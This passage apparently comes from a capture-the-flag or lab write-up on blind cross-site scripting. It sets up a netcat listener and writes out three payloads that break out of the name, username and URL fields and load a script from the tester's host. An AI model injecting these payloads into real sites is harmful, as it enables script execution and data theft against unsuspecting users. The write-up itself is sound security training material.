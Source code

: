 ![](./attachments/Pasted%20image%2020220511005044.png)

Since the input is not reflected back, we can try to set up a netcat listener and make a payload that calls home. 

Various blind XSS payloads can be found at [PayloadsAllTheThings: XSS Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss).

Payload, name: `Hax Haxx"><script src="http://10.10.15.133/fullname"></script>`

Payload, username: `Haxx"><script src="http://10.10.15.133/username"></script>`

Payload , URL: `haxx"><script src="http://10.10.15.133/URL"></script>`
